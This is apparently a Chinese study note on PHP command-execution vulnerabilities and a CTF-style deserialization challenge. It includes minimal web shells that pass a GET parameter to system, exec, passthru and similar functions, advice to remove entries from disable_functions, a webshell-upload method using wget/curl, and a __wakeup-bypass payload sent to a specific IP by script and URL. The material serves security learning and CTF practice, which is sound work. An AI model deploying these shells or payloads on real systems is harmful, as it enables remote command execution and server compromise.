





目标：  
1、熟悉整理<span data-type="text" style="color: var(--b3-font-color9);">命令执行</span>漏洞各<span data-type="text" style="color: var(--b3-font-color9);">函数</span>的使用<span data-type="text" style="color: var(--b3-font-color9);">方法和条件</span>，总结命令执行漏洞的<span data-type="text" style="color: var(--b3-font-color9);">利用方法</span>。  
2、熟悉PHP反序列化漏洞<span data-type="text" style="color: var(--b3-font-color9);">魔法函数</span>的触发过程，了解<span data-type="text" style="color: var(--b3-font-color9);">pop链的</span>拓展内容后，完成ctf.php

### 命令执行函数使用条件

<span data-type="text" style="color: var(--b3-font-color9);">在PHP.ini文件中没有被禁用</span>

```php
disable_functions = passthru,exec,system,putenv,chroot,chgrp,chown,shell_exec,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv;
```

将上方PHP需要使用的函数删除即可，否则：

​​

解禁后即可执行。

​​

### 命令执行漏洞的本质

应用有时需要调用一些执行系统命令的函数，当服务器没有严格过滤用户提供的参数时，就有可能导致用户提交恶意代码被服务器执行，从而造成命令执行漏洞。

### 命令执行函数的利用

* system()

  返回全部，有回显

  ```php
  <meta charset="gb2312">
  <?php
  if(isset($_GET['cmd'])){
      echo "<pre>";
      system($_GET['cmd']);
  }
  ?>
  ```

  ​​
* exec()

  返回一行，无回显

  ```php
  <meta charset="gb2312">
  <?php 
  if(isset($_GET['cmd'])){
      echo "<pre>";
      print exec($_GET['cmd']);
  }
  ?>
  ```

  ​​
* shell_exec()

  返回全部，无回显。

  ```php
  <meta charset="gb2312">
  <?php
  if(isset($_GET['cmd'])){
      echo "<pre>";
      print shell_exec($_GET['cmd']);
  }
  ?>
  ```

  ​​
* passthru()

  返回全部，有回显

  ```php
  <meta charset="gb2312">
  <?php
  if(isset($_GET['cmd'])){
  	echo "<pre>";
      passthru($_GET['cmd']);
  }
  ?>
  ```

  ​​
* popen()

  返回全部，无回显。可写入文件。

  ```php
  <meta charset="gb2312">
  <?php 
  if(isset($_GET['cmd'])){
      $cmd=$_GET['cmd'].">> doueifyshbqjipqwdeoubdjoswdjeishu.txt";
      popen($cmd,'r');
  }
  ?>
  ```

  ​​

  ​​
* ``反引号

  有返回全部，无回显

  ```php
  <meta charset="gb2312">
  <?php
  if(isset($_GET['cmd'])){
      $cmd=$_GET['cmd'];
      print `$cmd`;
  }
  ?>
  ```

  ​​

### 利用方法

1. **直接命令注入**

    * 通过构造恶意的输入参数，直接注入系统命令。例如，在Web表单中输入`whoami`​等命令.
    * 利用管道符（如`|`​、`&`​、`&&`​、`||`​等）将多个命令串联起来执行
2. **上传Webshell**

    * 利用命令执行漏洞上传Webshell（一种后门程序），以便后续持续控制目标系统。
    * 常见的上传方法包括使用wget/curl等工具下载Webshell到目标系统，或直接通过构造恶意请求将Webshell文件上传到目标目录。
3. **执行恶意脚本**

    * 在某些情况下，攻击者可以通过命令执行漏洞执行恶意脚本（如Python、Bash脚本等），以获取更高级别的权限或执行更复杂的攻击。
4. **信息泄露与破坏**

    * 攻击者可以利用命令执行漏洞获取系统或应用程序的敏感信息，密码、用户账号、数据库。
    * 还可以利用该漏洞对目标系统进行数据破坏，如删除文件、破坏数据库等。

运算符

|符号|Windows环境|Linux环境|
| :----------: | ----------------------------------| --------------------------------|
|&|无论第一个是否成功都执行第二个|前面的创建进程后台执行|
|&&|顺序执行，第一个成功执行第二个|--同windows|
|\||管道符，第一个输出作为第二个输入|--同windows|
|\|\||顺序执行，第一个失败才执行第二个|--同windows|
|；|-|顺序执行，不管成功没，都执行。|

### 魔法函数

|函数|说明|
| -----------------| --------------------------------------------------------------------------------------------------------------------------------|
| **__destruct()**|当对象销毁时会调用此方法|
| **__construct()**|对象初始化时会调用此方法|
| **__sleep()**|当调用searialize()方法时调用|
| **__wakeup()**|当调用unsearizlie()方法时调用|
| **__call($method, $args)**|调用对象<span data-type="text" style="color: var(--b3-font-color9);">方法不存在</span>或不允许被调用时此方法会被调用|
| **__callStatic($method, $args)**|调用对象的<span data-type="text" style="color: var(--b3-font-color9);">静态</span>方法<span data-type="text" style="color: var(--b3-font-color9);">不存在</span>或不允许被调用时此方法会被调用|
|||
|||
|||

```php
<?php
$flag="pussy best!!!!";
error_reporting(0);
class Name{  //Name类
    private $username = 'nonono';   //此处为private私有属性
    private $password = 'yesyes';

public function __construct($username,$password){    //__construct对象被创建时被调用
    $this->username = $username;
    $this->password = $password;
}
function __wakeup(){    // __wakeup在函数unserialize()执行反序列化时被调用
    $this->username = 'guest';  
}
function __destruct(){
    if ($this->password != 100) {
        echo "</br>NO!!!hacker!!!</br>";
        echo "You name is: ";
        echo $this->username;echo "</br>";
        echo "You password is: ";
        echo $this->password;echo "</br>";
        die();
    }
    if ($this->username === 'admin') {
        global $flag;
        echo $flag;
    }else{
        echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
        die();
   }
 }
}
$select = $_GET['select'];   
$res=unserialize(@$select);     //unserialize()执行反序列化
/*
class Name{
    private $username='admin';
    private $password=100;
}
$a=new Name();
var_dump(serialize($a));*/
?>
```

解题思路：

1. 执行反序列化时创建对象，此时__construct()被调用，序列化的值被传入用于创建对象（实例化对象的序列化值要符合要求，所以要区分public、protected与private在序列化时的区别)。
2. __wakeup在函数unserialize()执行反序列化时被调用，username被赋值guest，很显然不能被赋值，所以要跳过__wakeup的执行。

### protected的序列化

声明的字段为保护字段，在所声明的类和该类的子类中可见，保护字段的字段名在序列化时，字段名前面会加上<span data-type="text" style="color: var(--b3-font-color9);">\0*\0的前缀</span>。这里的 <span data-type="text" style="color: var(--b3-font-color9);">\0 表示 ASCII 码值为 0 的转义字符</span>(不可见字符)，而不是 \\0 组合。

```php
public function __construct($username,$password){
    	$this->username = $username;
        $this->password = $password;
    }
payload：O:4:"Name":2:{s:11:"\0*\0username";s:5:"admin";s:11:"\0*\0password";i:100;}
```

### **private的序列化**

声明的字段为私有字段，只在所声明的<span data-type="text" style="color: var(--b3-font-color9);">类中可见</span>，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，<span data-type="text" style="color: var(--b3-font-color9);">类名</span>和字<span data-type="text" style="color: var(--b3-font-color9);">段名</span>前面都会<span data-type="text" style="color: var(--b3-font-color9);">加上\0的前缀</span>。且 \\0 字符也是计算长度的。

```php
 public function __construct($username,$password){
    	$this->username = $username;
        $this->password = $password;
    }
payload：O:4:"Name":2:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

### \_\_wakeup()方法绕过

当反序列化字符串，表示<span data-type="text" style="color: var(--b3-font-color9);">属性个数的值大于真实属性个数时，会跳过 __wakeup 函数的执行</span>。

```bash
序列化后payload： O:4:"Name":2:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}

绕过wakeup： O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```

<span data-type="text" style="color: var(--b3-font-color9);">\0 表示 ASCII 码值为 0 的转义字符</span>所以使用浏览器发送，使用python请求如下：

```php
import  requests
url ="http://47.113.187.190:90/ctf.php/"
html = requests.get(url+'?select=O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}')
print(html.text)

```

​​

```bash
http://47.113.187.190:90/ctf.php?select=O:4:%22Name%22:3:{s:14:%22%00Name%00username%22;s:5:%22admin%22;s:14:%22%00Name%00password%22;i:100;}
```

​​

‍
